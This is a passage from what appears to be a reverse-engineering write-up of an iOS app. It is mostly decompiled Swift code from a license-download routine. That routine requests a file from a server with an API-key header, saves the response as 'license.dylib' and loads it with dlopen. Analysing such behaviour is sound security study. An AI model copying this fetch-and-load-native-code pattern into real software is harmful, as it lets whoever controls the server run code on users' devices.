  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar3 = (undefined *)(lVar5 - local_140);
  local_130 = extraout_x8_00 + 0xfU & 0xfffffffffffffff0;
  UVar8.unknown = puVar3;
  local_138.unknown = puVar3;
  (*(code *)PTR____chkstk_darwin_100024208)();
  local_128 = (long)puVar3 - local_130;
  local_58 = this;
  local_50 = pcVar10;
  local_48 = pvVar12;
  local_40 = pcVar4;
  local_38 = pvVar7;
  local_30 = local_128;
  _objc_retain(this);
  uVar9 = 1;
  local_60 = this;
  local_70 = (undefined *)Swift::DefaultStringInterpolation::init(local_120,1);
  local_f8 = &local_70;
  local_c4 = 1;
  DVar11.unknown = (undefined *)0x1;
  local_68 = uVar9;
  SVar13 = Swift::String::init("http://",7,1);
  local_118 = SVar13.bridgeObject;
  Swift::DefaultStringInterpolation::appendLiteral(SVar13,DVar11);
  _swift_bridgeObjectRelease(local_118);
  local_80 = local_110;
  local_78 = local_108;
  Swift::DefaultStringInterpolation::$appendInterpolation
            (&local_80,PTR_$$type_metadata_for_Swift.String_100024408,
             PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100024620
             ,
             PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100024720
            );
  DVar11.unknown = (undefined *)(ulong)(local_c4 & 1);
  SVar13 = Swift::String::init("/download",9,(__int8)(local_c4 & 1));
  local_100 = SVar13.bridgeObject;
  Swift::DefaultStringInterpolation::appendLiteral(SVar13,DVar11);
  _swift_bridgeObjectRelease(local_100);
  local_e8.unknown = local_70;
  local_f0 = local_68;
  _swift_bridgeObjectRetain();
  $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_f8);
  SVar13 = Swift::String::init(local_e8);
  local_e0 = SVar13.bridgeObject;
  Foundation::URL::$init();
  _swift_bridgeObjectRelease(local_e0);
  lVar5 = local_d0;
  (**(code **)(local_d8 + 0x30))(local_d0,local_c4,local_c0);
  pUVar1 = local_168;
  if ((int)lVar5 == 1) {
    $$outlined_destroy_of_Foundation.URL?(local_d0);
    sender = (UIViewController *)0x1;
    local_1e8 = Swift::String::init("Invalid URL",0xb,1);
    $showToast(local_1e8,in_d0,sender);
    showToast(local_1e8,in_d0,(UIViewController *)local_198);
    _swift_bridgeObjectRelease(local_1e8.bridgeObject);
    _objc_release(local_198);
  }
  else {
    (**(code **)(local_d8 + 0x20))(local_128,local_d0,local_c0);
    UVar6.unknown = local_138.unknown;
    (**(code **)(local_d8 + 0x10))(local_138.unknown,local_128,local_c0);
    $$default_argument_1_of_Foundation.URLRequest.init(url:_Foundation.URL,cachePolicy:___C.NSURLRequestCachePolicy,timeoutInterval:_Swift.Double)_->_Foundation.URLRequest
              ();
    local_1d8.unknown = UVar6.unknown;
    $$default_argument_2_of_Foundation.URLRequest.init(url:_Foundation.URL,cachePolicy:___C.NSURLRequestCachePolicy,timeoutInterval:_Swift.Double)_->_Foundation.URLRequest
              ();
    Foundation::URLRequest::init(local_138,local_1d8,in_d0);
    local_1cc = 1;
    Swift::String::init("GET",3,1);
    Foundation::URLRequest::$set_httpMethod(pUVar1);
    forHTTPHeaderField = Swift::String::init("X-API-Key",9,(byte)local_1cc & 1);
    local_1c8 = forHTTPHeaderField.bridgeObject;
    SVar13.bridgeObject = local_148;
    SVar13.str = local_150;
    Foundation::URLRequest::addValue(SVar13,forHTTPHeaderField,UVar8);
    pSVar2 = local_198;
    pvVar7 = local_1c8;
    _swift_bridgeObjectRelease();
    (**(code **)((*(ulong *)pSVar2 & *(ulong *)PTR__swift_isaMask_100024630) + 0x58))();
    UVar8.unknown = local_178;
    local_1b0 = pvVar7;
    (**(code **)(local_188 + 0x10))(local_178,local_168,local_190);
    local_1b8 = Foundation::URLRequest::_bridgeToObjectiveC(UVar8);
    local_1a0 = *(code **)(local_188 + 8);
    (*local_1a0)(local_178,local_190);
    _objc_retain(local_198);
    puVar3 = &DAT_1000249e8;
    _swift_allocObject(&DAT_1000249e8,0x18,7);
    *(SubscribeController **)(puVar3 + 0x10) = local_198;
    local_90 = 
    $$partial_apply_forwarder_for_closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.getLicenseFile(server:_Swift.String,withToken:_Swift.String)_->_()
    ;
    local_b0 = PTR___NSConcreteStackBlock_100024248;
    local_a8 = 0x42000000;
    local_a4 = 0;
    local_a0 = 
    $$reabstraction_thunk_helper_from_@escaping_@callee_guaranteed_@Sendable_(@guaranteed_Foundation.Data?,@guaranteed___C.NSURLResponse?,@guaranteed_Swift.Error?)_->_()_to_@escaping_@callee_unowned_@convention(block)_@Sendable_(@unowned___C.NSData?,@unowned___C.NSURLResponse?,@unowned___C.NSError?)_->_()
    ;
    local_98 = &_block_descriptor.12;
    local_88 = puVar3;
    local_1c0 = __Block_copy(&local_b0);
    _swift_release(local_88);
    pvVar7 = local_1b0;
    _objc_msgSend(local_1b0,"dataTaskWithRequest:completionHandler:",local_1b8,local_1c0);
    _objc_retainAutoreleasedReturnValue();
    local_1a8 = pvVar7;
    __Block_release(local_1c0);
    _objc_release(local_1b8);
    _objc_release(local_1b0);
    local_b8 = local_1a8;
    _objc_msgSend(local_1a8,"resume");
    _objc_release(local_1a8);
    (*local_1a0)(local_168,local_190);
    (**(code **)(local_d8 + 8))(local_128,local_c0);
    _objc_release(local_198);
  }
  return;
}

```

In particular, a GET request is sent to the url `http://<server value>/download`:



Please note that at line 200, the application sets the request header `X-API-Key` with the token received in the previous request. This is supposed to be used as authentication credential when downloading the license.

Also this time, the HTTP request is handled by a lambda function - `$$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.getLicenseFile(server:_Swift.String,withToken:_Swift.String)_->_()`:



Following the complete lambda code:

```c
/* WARNING: Removing unreachable block (ram,0x00010000b108) */
/* WARNING: Removing unreachable block (ram,0x00010000b370) */
/* WARNING: Removing unreachable block (ram,0x00010000b020) */
/* WARNING: Removing unreachable block (ram,0x00010000ad80) */
/* WARNING: Heritage AFTER dead removal. Example location: x0 : 0x00010000a3f4 */
/* WARNING: Restarted to delay deadcode elimination for space: register */

void $$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.getLicenseFile(server:_Swift.String,withToken:_Swift.String)_->_()
               (double param_1,undefined *param_2,void *param_3,long param_4,long param_5,
               UIViewController *param_6,void *param_7)

{
  uint uVar1;
  bool bVar2;
  long lVar3;
  Dictionary<> DVar4;
  long *plVar5;
  undefined8 uVar6;
  undefined *ns_file_manager;
  NSDataWritingOptions to;
  ContiguousArray<__int8> CVar7;
  code *pcVar8;
  _ContiguousArrayBuffer _Var9;
  void *pvVar10;
  char *pcVar11;
  char *pcVar12;
  __int64 _Var13;
  long lVar14;
  UIViewController *pUVar15;
  URL UVar16;
  Data DVar17;
  char *pcVar18;
  DefaultStringInterpolation DVar19;
  String str_obj;
  String SVar20;
  tuple2.conflict1 tVar21;
  String SVar22;
  String SVar23;
  String SVar24;
  String SVar25;
  String SVar26;
  String SVar27;
  String separator;
  String separator_00;
  String separator_01;
  String separator_02;
  String separator_03;
  String separator_04;
  String SVar28;
  long local_870;
  long local_868;
  long local_860;
  long local_858;
  long local_850;
  long local_848;
  String local_840;
  long local_830;
  String local_828;
  String local_818;
  __int64 local_808;
  undefined8 local_800;
  void *local_7f8;
  UnsafePointer<__int8> local_7f0;
  String *local_7e8;
  uint local_7dc;
  void *local_7d8;
  undefined **local_7d0;
  __int64 local_7c8;
  DefaultStringInterpolation local_7c0;
  String *local_7b8;
  char *local_7b0;
  char *local_7a8;
  char *local_7a0;
  char *local_798;
  char *local_790;
  String *local_788;
  char *local_780;
  char *local_778;
  char *local_770;
  char *local_768;
  char *local_760;
  undefined *local_758;
  undefined *local_750;
  uint local_744;
  _ContiguousArrayBuffer local_740;
  undefined *local_738;
  undefined *local_730;
  undefined *local_728;
  undefined8 local_720;
  undefined8 local_718;
  undefined *local_710;
  undefined *local_708;
  undefined *local_700;
  undefined *local_6f8;
  undefined *local_6f0;
  undefined *local_6e8;
  undefined *local_6e0;
  String local_6d8;
  String local_6c8;
  String local_6b8;
  uint local_6a4;
  _ContiguousArrayBuffer local_6a0;
  undefined *local_698;
  undefined *local_690;
  code *local_688;
  undefined8 local_680;
  undefined8 local_678;
  undefined *local_670;
  undefined *local_668;
  undefined *local_660;
  undefined *local_658;
  undefined *local_650;
  undefined *local_648;
  undefined *local_640;
  code *local_638;
  void *local_630;
  undefined *local_628;
  undefined *local_620;
  String local_618;
  undefined *local_608;
  undefined *local_600;
  _ContiguousArrayBuffer local_5f8;
  code *local_5f0;
  code *local_5e8;
  code *local_5e0;
  code *local_5d8;
  undefined8 local_5d0;
  undefined8 local_5c8;
  code *local_5c0;
  code *local_5b8;
  code *local_5b0;
  code *local_5a8;
  code *local_5a0;
  code *local_598;
  code *local_590;
  String local_588;
  code *local_578;
  code *local_570;
  long local_560;
  long local_558;
  NSURL *local_550;
  uint local_544;
  void *local_540;
  NSString *local_538;
  uint local_52c;
  long local_528;
  NSURL *local_520;
  uint local_514;
  void *local_510;
  code *local_508;
  code *local_500;
  void *local_4f8;
  undefined *local_4f0;
  NSString *local_4e8;
  uint local_4dc;
  String local_4d8;
  void *local_4c8;
  Data local_4c0;
  undefined *local_4b8;
  undefined *local_4b0;
  undefined *local_4a8;
  undefined *local_4a0;
  undefined **local_498;
  undefined *local_490;
  void *local_488;
  String local_480;
  undefined *local_470;
  undefined *local_468;
  long *local_460;
  undefined8 *local_458;
  uint local_450;
  uint local_44c;
  char *local_448;
  char *mime_type_str2;
  void *local_438;
  void *local_430;
  long *local_428;
  uint local_420;
  uint local_41c;
  char *mime_type_str;
  long local_410;
  long local_408;
  void *local_400;
  long local_3f8;
  long local_3f0;
  long local_3e8;
  long local_3e0;
  long local_3d8;
  long local_3d0;
  long local_3c8;
  long local_3c0;
  long local_3b8;
  undefined1 *content_type_str;
  undefined *local_3a8;
  char *local_3a0;
  undefined *local_398;
  long local_390;
  long local_388;
  long local_380;
  long local_378;
  long local_370;
  long local_368;
  long local_360;
  long local_358;
  String local_350;
  long local_340;
  long local_338;
  long local_330;
  long local_328;
  long local_320;
  long local_318;
  long local_310;
  long local_308;
  String local_300;
  long local_2f0;
  long local_2e8;
  long local_2e0;
  char *local_2d8;
  undefined *local_2d0;
  char *local_2c8;
  char *local_2c0;
  char *local_2b8;
  char *local_2b0;
  long local_2a8;
  ulong local_2a0;
  long local_298;
  undefined *local_290;
  long local_288;
  UIViewController *local_280;
  void *local_278;
  undefined *local_270;
  long local_268;
  ulong local_260;
  undefined *local_258;
  ulong local_250;
  undefined *local_248;
  ulong local_240;
  undefined *local_238;
  ulong local_230;
  long local_228;
  URL write_to_file_url;
  ulong local_218;
  long local_210;
  long local_208;
  undefined *local_200;
  undefined *local_1f8;
  code *local_1f0;
  long local_1e8;
  long local_1e0;
  long local_1d8;
  long local_1d0;
  long local_1c8;
  long local_1c0;
  code *local_1b8;
  code *local_1b0;
  code *local_1a8;
  String local_1a0;
  undefined *local_190;
  __int64 local_188;
  undefined *local_180;
  long local_178;
  undefined *local_170;
  undefined *local_168;
  long status_code1;
  undefined8 local_158;
  String local_150;
  long local_140;
  UIViewController *local_138;
  long local_130;
  long local_128;
  long local_120;
  undefined *local_118;
  char *local_110;
  void *local_108;
  long local_100;
  long local_f8;
  code *local_f0;
  code *local_e8;
  undefined8 local_e0;
  undefined *local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  undefined *local_c0;
  void *local_b8;
  long local_b0;
  long local_a8;
  char *mime_type_str1;
  void *local_98;
  undefined1 auStack_90 [40];
  undefined1 headers_dict [24];
  long local_50;
  undefined8 local_48;
  void *local_40;
  long local_38;
  long status_code;
  
  local_2d8 = PTR_$$type_metadata_for_Any_1000246f8 + 8;
  local_2d0 = PTR_$$type_metadata_for_Swift.String_100024408;
  local_2c8 = "Fatal error";
  local_2c0 = "Can\'t unsafeBitCast between types of different sizes";
  local_2b8 = "Swift/arm64-apple-ios.swiftinterface";
  local_2b0 = "Unexpectedly found nil while unwrapping an Optional value";
  local_38 = *(long *)PTR____stack_chk_guard_100024260;
  local_118 = (undefined *)0x0;
  local_120 = 0;
  local_48 = 0;
  local_40 = (void *)0x0;
  local_128 = 0;
  local_130 = 0;
  local_138 = (UIViewController *)0x0;
  local_140 = 0;
  local_c0 = (undefined *)0x0;
  local_b8 = (void *)0x0;
  local_170 = (undefined *)0x0;
  local_2a8 = 0;
  local_178 = 0;
  local_180 = (undefined *)0x0;
  local_1a8 = (code *)0x0;
  local_1b0 = (code *)0x0;
  local_1b8 = (code *)0x0;
  local_1e0 = 0;
  local_1e8 = 0;
  ns_file_manager = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_290 = param_2;
  local_288 = param_4;
  local_280 = param_6;
  local_278 = param_3;
  local_208 = param_5;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_2a0 = *(long *)(*(long *)(ns_file_manager + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  status_code = (long)&local_870 - local_2a0;
  local_298 = status_code;
  local_270 = (undefined *)Foundation::URL::typeMetadataAccessor();
  local_268 = *(long *)(local_270 + -8);
  local_228 = *(long *)(local_268 + 0x40);
  local_260 = local_228 + 0xfU & 0xfffffffffffffff0;
  lVar3 = local_208;
  pvVar10 = local_278;
  lVar14 = local_288;
  pUVar15 = local_280;
  (*(code *)PTR____chkstk_darwin_100024208)(local_290);
  ns_file_manager = (undefined *)(status_code - local_260);
  local_250 = local_228 + 0xfU & 0xfffffffffffffff0;
  local_258 = ns_file_manager;
  (*(code *)PTR____chkstk_darwin_100024208)();
  ns_file_manager = ns_file_manager + -local_250;
  local_240 = local_228 + 0xfU & 0xfffffffffffffff0;
  local_248 = ns_file_manager;
  (*(code *)PTR____chkstk_darwin_100024208)();
  status_code = -local_240;
  local_230 = local_228 + 0xfU & 0xfffffffffffffff0;
  local_238 = ns_file_manager + status_code;
  (*(code *)PTR____chkstk_darwin_100024208)();
  ns_file_manager = ns_file_manager + status_code + -local_230;
  local_218 = local_228 + 0xfU & 0xfffffffffffffff0;
  write_to_file_url.unknown = ns_file_manager;
  local_118 = ns_file_manager;
  (*(code *)PTR____chkstk_darwin_100024208)();
  local_210 = (long)ns_file_manager - local_218;
  local_138 = pUVar15;
  local_130 = lVar3;
  local_128 = lVar14;
  local_120 = local_210;
  local_40 = pvVar10;
  _swift_errorRetain();
  if (local_208 != 0) {
    local_2e0 = local_208;
    local_2f0 = local_208;
    local_1e8 = local_208;
    pUVar15 = (UIViewController *)0x1;
    local_300 = Swift::String::init("Cannot connect to host while getting license",0x2c,1);
    Runtime::$showToast(local_300,param_1,pUVar15);
    Runtime::showToast(local_300,param_1,local_280);
    _swift_bridgeObjectRelease(local_300.bridgeObject);
    _swift_errorRelease(local_2f0);
    goto LAB_10000b784;
  }
  _objc_retain(local_288);
  if (local_288 == 0) {
    local_308 = 0;
  }
  else {
    local_2e8 = local_288;
    local_318 = local_288;
    ns_file_manager = &_OBJC_CLASS_$_NSHTTPURLResponse;
    _objc_opt_self(&_OBJC_CLASS_$_NSHTTPURLResponse);
    status_code = local_318;
    _swift_dynamicCastObjCClass(local_318,ns_file_manager);
    local_320 = status_code;
    local_310 = status_code;
    if (status_code == 0) {
      local_328 = 0;
      _objc_release(local_318);
      local_320 = local_328;
    }
    local_308 = local_320;
  }
  local_330 = local_308;
  if (local_308 != 0) {
    local_338 = local_308;
    local_340 = local_308;
    local_1e0 = local_308;
    status_code = local_308;
    _objc_msgSend(local_308,"statusCode");
    if (status_code == 401) {
      pUVar15 = (UIViewController *)0x1;
      local_350 = Swift::String::init("Unable to authenticate to server",0x20,1);
      Runtime::$showToast(local_350,param_1,pUVar15);
      Runtime::showToast(local_350,param_1,local_280);
      _swift_bridgeObjectRelease(local_350.bridgeObject);
      _objc_release(local_340);
      goto LAB_10000b784;
    }
    _objc_release(local_340);
  }
  _objc_retain(local_288);
  if (local_288 == 0) {
    local_360 = 0;
  }
  else {
    local_358 = local_288;
    local_370 = local_288;
    ns_file_manager = &_OBJC_CLASS_$_NSHTTPURLResponse;
    _objc_opt_self(&_OBJC_CLASS_$_NSHTTPURLResponse);
    status_code = local_370;
    _swift_dynamicCastObjCClass(local_370,ns_file_manager);
    local_378 = status_code;
    local_368 = status_code;
    if (status_code == 0) {
      local_380 = 0;
      _objc_release(local_370);
      local_378 = local_380;
    }
    local_360 = local_378;
  }
  local_388 = local_360;
  if (local_360 != 0) {
    local_390 = local_360;
    local_3c0 = local_360;
    local_140 = local_360;
    status_code = local_360;
    _objc_msgSend(local_360,"allHeaderFields");
    _objc_retainAutoreleasedReturnValue();
    local_3a8 = PTR_$$type_metadata_for_Swift.AnyHashable_100024628;
    local_3a0 = 
    PTR_$$protocol_witness_table_for_Swift.AnyHashable_:_Swift.Hashable_in_Swift_100024570;
    local_3b8 = status_code;
    DVar4 = (extension_Foundation)::Swift::Dictionary::$_unconditionallyBridgeFromObjectiveC();
    local_398 = DVar4.unknown;
    local_150 = Swift::String::init("Content-Type",0xc,1);
    content_type_str = auStack_90;
    Swift::$_convertToAnyHashable
              (DVar4.unknown,local_2d0,
               PTR_$$protocol_witness_table_for_Swift.String_:_Swift.Hashable_in_Swift_100024600);
    pcVar11 = local_3a0;
    Swift::Dictionary::$get_subscript(headers_dict,content_type_str,local_398,local_3a8,local_2d8);
    _swift_bridgeObjectRelease(local_398);
    if (local_50 == 0) {
      local_3d8 = 0;
      $$outlined_destroy_of_Swift.AnyHashable(auStack_90);
      $$outlined_destroy_of_Swift.String(&local_150);
      _objc_release(local_3b8);
      $$outlined_destroy_of_Any?(headers_dict);
      local_3d0 = local_3d8;
      local_3c8 = local_3d8;
    }
    else {
      plVar5 = &local_1d8;
      pcVar11 = (char *)0x6;
      _swift_dynamicCast(plVar5,headers_dict,local_2d8,local_2d0);
      if (((ulong)plVar5 & 1) == 0) {
        local_3e8 = 0;
        local_3e0 = 0;
      }
      else {
        local_3e8 = local_1d8;
        local_3e0 = local_1d0;
      }
      local_3f0 = local_3e0;
      local_3f8 = local_3e8;
      $$outlined_destroy_of_Swift.AnyHashable(auStack_90);
      $$outlined_destroy_of_Swift.String(&local_150);
      _objc_release(local_3b8);
      local_3d0 = local_3f8;
      local_3c8 = local_3f0;
    }
    local_408 = local_3c8;
    local_410 = local_3d0;
    _swift_bridgeObjectRetain();
    str_obj = Swift::String::init("application/octet-stream",0x18,1);
    local_400 = str_obj.bridgeObject;
    mime_type_str = str_obj.str;
    _swift_bridgeObjectRetain();
    local_b0 = local_410;
    local_a8 = local_408;
    mime_type_str1 = mime_type_str;
    local_98 = local_400;
    if (local_408 == 0) {
      if (local_400 != (void *)0x0) goto LAB_10000a64c;
      $$outlined_destroy_of_Swift.String?(&local_b0);
      local_41c = 1;
    }
    else {
      $$outlined_init_with_copy_of_Swift.String?(&local_b0,&local_110);
      if (local_98 == (void *)0x0) {
        $$outlined_destroy_of_Swift.String(&local_110);
LAB_10000a64c:
        $$outlined_destroy_of_(Swift.String?,Swift.String?)(&local_b0);
        local_41c = 0;
      }
      else {
        local_448 = local_110;
        local_430 = local_108;
        _swift_bridgeObjectRetain();
        mime_type_str2 = mime_type_str1;
        local_428 = &local_b0;
        local_438 = local_98;
        _swift_bridgeObjectRetain();
        str_obj.bridgeObject = local_438;
        str_obj.str = mime_type_str2;
        SVar20.bridgeObject = local_430;
        SVar20.str = local_448;
        SVar28.bridgeObject = param_7;
        SVar28.str = pcVar11;
        bVar2 = Swift::String::==_infix(SVar20,str_obj,SVar28);
        local_420 = (uint)CONCAT71((int7)((ulong)&local_b0 >> 8),bVar2);
        _swift_bridgeObjectRelease(local_438);
        _swift_bridgeObjectRelease(local_430);
        _swift_bridgeObjectRelease(local_438);
        _swift_bridgeObjectRelease(local_430);
        $$outlined_destroy_of_Swift.String?(local_428);
        local_41c = local_420;
      }
    }
    local_44c = local_41c;
    _swift_bridgeObjectRelease(local_400);
    _swift_bridgeObjectRelease(local_408);
    if ((local_44c & 1) != 0) {
      local_470 = PTR_$$type_metadata_for_Swift.Int_100024540;
      tVar21 = Swift::$_allocateUninitializedArray(2);
      uVar6 = tVar21._0_8_;
      *(undefined8 *)tVar21.1 = 0x12e;
      *(undefined8 *)((long)tVar21.1 + 8) = 200;
      Swift::$_finalizeUninitializedArray(uVar6,local_470);
      local_458 = &local_158;
      status_code = local_3c0;
      local_158 = uVar6;
      _objc_msgSend(local_3c0,"statusCode");
      local_460 = &status_code1;
      ns_file_manager = &$$demangling_cache_variable_for_type_metadata_for_[Swift.Int];
      status_code1 = status_code;
      ___swift_instantiateConcreteTypeFromMangledName();
      local_468 = ns_file_manager;
      Swift::Array<__int64>::$lazy_protocol_witness_table_accessor();
      bVar2 = (extension_Swift)::Swift::Sequence::$contains();
      local_450 = (uint)CONCAT71((int7)((ulong)ns_file_manager >> 8),bVar2);
      $$outlined_destroy_of_[Swift.Int](local_458);
      if ((local_450 & 1) == 0) {
        pUVar15 = (UIViewController *)0x1;
        local_480 = Swift::String::init("Unexpected response from server (download path not available)"
                                        ,0x3d,1);
        Runtime::$showToast(local_480,param_1,pUVar15);
        Runtime::showToast(local_480,param_1,local_280);
        _swift_bridgeObjectRelease(local_480.bridgeObject);
        _objc_release(local_3c0);
        goto LAB_10000b784;
      }
      $outlined_copy();
      if (((ulong)local_278 & 0xf000000000000000) != 0xf000000000000000) {
        local_490 = local_290;
        local_488 = local_278;
        local_4c8 = local_278;
        local_4c0.unknown = local_290;
        local_c0 = local_290;
        local_b8 = local_278;
        ns_file_manager = &_OBJC_CLASS_$_NSFileManager;
        _objc_opt_self();
        _objc_msgSend();
        _objc_retainAutoreleasedReturnValue();
        local_4b8 = ns_file_manager;
        _objc_msgSend();
        _objc_retainAutoreleasedReturnValue();
        local_4b0 = ns_file_manager;
        _objc_release(local_4b8);
        ns_file_manager = local_4b0;
        (extension_Foundation)::Swift::Array<undefined>::$_unconditionallyBridgeFromObjectiveC();
        local_4a8 = ns_file_manager;
        _swift_bridgeObjectRetain();
        local_498 = &local_168;
        local_168 = local_4a8;
        ns_file_manager = &$$demangling_cache_variable_for_type_metadata_for_[Foundation.URL];
        ___swift_instantiateConcreteTypeFromMangledName();
        local_4a0 = ns_file_manager;
        Swift::Array<URL>::$lazy_protocol_witness_table_accessor();
        (extension_Swift)::Swift::Collection::$get_first();
        $$outlined_destroy_of_[Foundation.URL](local_498);
        status_code = local_298;
        (**(code **)(local_268 + 0x30))(local_298,1,local_270);
        if ((int)status_code == 1) {
          $$outlined_destroy_of_Foundation.URL?(local_298);
          _swift_bridgeObjectRelease(local_4a8);
          _objc_release(local_4b0);
          pUVar15 = (UIViewController *)0x1;
          local_4d8 = Swift::String::init("Unable to store license file!",0x1d,1);
          Runtime::$showToast(local_4d8,param_1,pUVar15);
          Runtime::showToast(local_4d8,param_1,local_280);
          _swift_bridgeObjectRelease(local_4d8.bridgeObject);
          outlined_consume((_Representation)(__int8)local_4c0.unknown);
          _objc_release(local_3c0);
          goto LAB_10000b784;
        }
        (**(code **)(local_268 + 0x20))(local_210,local_298,local_270);
        _swift_bridgeObjectRelease(local_4a8);
        _objc_release(local_4b0);
        UVar16.unknown = (undefined *)0x1;
        str_obj = Swift::String::init("license.dylib",0xd,1);
        local_510 = str_obj.bridgeObject;
        Foundation::URL::appendingPathComponent(str_obj,UVar16);
        UVar16.unknown = local_238;
        _swift_bridgeObjectRelease(local_510);
        ns_file_manager = &_OBJC_CLASS_$_NSFileManager;
        _objc_opt_self();
        _objc_msgSend();
        _objc_retainAutoreleasedReturnValue();
        local_508 = *(code **)(local_268 + 0x10);
        local_4f0 = ns_file_manager;
        local_170 = ns_file_manager;
        (*local_508)(UVar16.unknown,local_210,local_270);
        str_obj = Foundation::URL::get_path(UVar16);
        local_4f8 = str_obj.bridgeObject;
        local_4e8 = (extension_Foundation)::Swift::String::_bridgeToObjectiveC();
        local_500 = *(code **)(local_268 + 8);
        (*local_500)(local_238,local_270);
        _swift_bridgeObjectRelease(local_4f8);
        ns_file_manager = local_4f0;
        _objc_msgSend(local_4f0,"fileExistsAtPath:",local_4e8);
        local_4dc = (uint)ns_file_manager;
        _objc_release(local_4e8);
        if ((local_4dc & 1) == 0) {
          local_100 = 0;
          UVar16.unknown = local_238;
          (*local_508)(local_238,local_210,local_270);
          local_520 = Foundation::URL::_bridgeToObjectiveC(UVar16);
          (*local_500)(local_238,local_270);
          local_1c8 = local_100;
          ns_file_manager = local_4f0;
          _objc_msgSend(local_4f0,
                        "createDirectoryAtURL:withIntermediateDirectories:attributes:error:",
                        local_520,1,0,&local_1c8);
          local_514 = (uint)ns_file_manager;
          local_528 = local_1c8;
          _objc_retain();
          status_code = local_100;
          local_100 = local_528;
          _objc_release(status_code);
          _objc_release(local_520);
          if ((local_514 & 1) != 0) goto LAB_10000aaac;
          local_858 = local_100;
          status_code = local_100;
          Foundation::$_convertNSErrorToError();
          local_850 = status_code;
          _objc_release(local_858);
          _swift_willThrow();
          _objc_release(local_4f0);
          local_848 = local_850;
LAB_10000b7bc:
          local_830 = local_848;
          _swift_errorRetain();
          local_178 = local_830;
          pUVar15 = (UIViewController *)0x1;
          local_840 = Swift::String::init("Failed to move or load the license file",0x27,1);
          Runtime::$showToast(local_840,param_1,pUVar15);
          Runtime::showToast(local_840,param_1,local_280);
          _swift_bridgeObjectRelease(local_840.bridgeObject);
          _swift_errorRelease(local_830);
          _swift_errorRelease(local_830);
        }
        else {
LAB_10000aaac:
          UVar16.unknown = local_238;
          (*local_508)(local_238,write_to_file_url.unknown,local_270);
          str_obj = Foundation::URL::get_path(UVar16);
          local_540 = str_obj.bridgeObject;
          local_538 = (extension_Foundation)::Swift::String::_bridgeToObjectiveC();
          (*local_500)(local_238,local_270);
          _swift_bridgeObjectRelease(local_540);
          pcVar11 = "fileExistsAtPath:";
          ns_file_manager = local_4f0;
          DVar17.unknown = local_538;
          _objc_msgSend();
          local_52c = (uint)ns_file_manager;
          _objc_release(local_538);
          uVar1 = local_52c;
          if ((local_52c & 1) != 0) {
            local_f8 = 0;
            UVar16.unknown = local_238;
            (*local_508)(local_238,write_to_file_url.unknown,local_270);
            local_550 = Foundation::URL::_bridgeToObjectiveC(UVar16);
            (*local_500)(local_238,local_270);
            local_1c0 = local_f8;
            pcVar11 = "removeItemAtURL:error:";
            ns_file_manager = local_4f0;
            DVar17.unknown = local_550;
            _objc_msgSend();
            local_544 = (uint)ns_file_manager;
            local_558 = local_1c0;
            _objc_retain();
            status_code = local_f8;
            local_f8 = local_558;
            _objc_release(status_code);
            _objc_release(local_550);
            uVar1 = local_544;
            if ((local_544 & 1) == 0) {
              local_868 = local_f8;
              status_code = local_f8;
              Foundation::$_convertNSErrorToError();
              local_860 = status_code;
              _objc_release(local_868);
              _swift_willThrow();
              _objc_release(local_4f0);
              local_848 = local_860;
              goto LAB_10000b7bc;
            }
          }
          status_code = local_2a8;
          to.unknown._4_4_ = 0;
          to.unknown._0_4_ = uVar1;
          Foundation::Data::$write((URL)to.unknown,(NSDataWritingOptions)pcVar11,DVar17);
          pvVar10 = local_4c8;
          Foundation::Data::$write(write_to_file_url,to,local_4c0);
          local_560 = status_code;
          if (status_code != 0) {
            local_870 = status_code;
            _objc_release(local_4f0);
            local_848 = local_870;
            goto LAB_10000b7bc;
          }
          UVar16.unknown = local_248;
          (*local_508)(local_248,write_to_file_url.unknown,local_270);
          local_588 = Foundation::URL::get_path(UVar16);
          (*local_500)(local_248,local_270);
          CVar7 = Swift::String::get_utf8CString(local_588);
          _$sSaySayxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s15ContiguousArrayVyAEGTgmq5();
          local_578 = (code *)CVar7.unknown;
          Swift::Array<undefined>::$get__baseAddressIfContiguous();
          local_570 = (code *)CVar7.unknown;
          if (((code *)CVar7.unknown != (code *)0x0) ||
             (bVar2 = (extension_Swift)::Swift::Collection::get_isEmpty(), bVar2)) {
            pcVar8 = local_578;
            Swift::Array<undefined>::$get__owner();
            local_5a8 = pcVar8;
            local_590 = pcVar8;
            if (local_570 == (code *)0x0) {
              local_5a0 = (code *)0x0;
            }
            else {
              local_598 = local_570;
              local_5a0 = local_570;
            }
          }
          else {
            _swift_bridgeObjectRetain(local_578);
            pcVar8 = local_578;
            _$ss15ContiguousArrayVyAByxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s01_B6BufferVyAGGTgmq5
                      ();
            local_5f8.unknown = pcVar8;
            _swift_retain();
            _swift_release(local_5f8.unknown);
            _Var9.unknown = local_5f8.unknown;
            Swift::_ContiguousArrayBuffer::$get_owner(local_5f8);
            local_5f0 = (code *)_Var9.unknown;
            local_5e8 = (code *)Swift::_ContiguousArrayBuffer::get_firstElementAddress(local_5f8);
            _swift_release(local_5f8.unknown);
            local_5a0 = local_5e8;
            local_5a8 = local_5f0;
          }
          local_5b8 = local_5a0;
          local_5b0 = local_5a8;
          if (local_5a0 == (code *)0x0) {
            local_c8 = 0xffffffffffffffff;
            local_5c8 = 0xffffffffffffffff;
            local_5d0 = 0xffffffffffffffff;
            local_1f0 = (code *)0xffffffffffffffff;
            _swift_bridgeObjectRelease(local_578);
          }
          else {
            local_5c0 = local_5a0;
            local_1f0 = local_5a0;
            _swift_bridgeObjectRelease(local_578);
          }
          pcVar8 = local_1f0;
          _dlopen(local_1f0,2);
          local_5d8 = pcVar8;
          _swift_unknownObjectRelease(local_5b0);
          _swift_bridgeObjectRelease(local_588.bridgeObject);
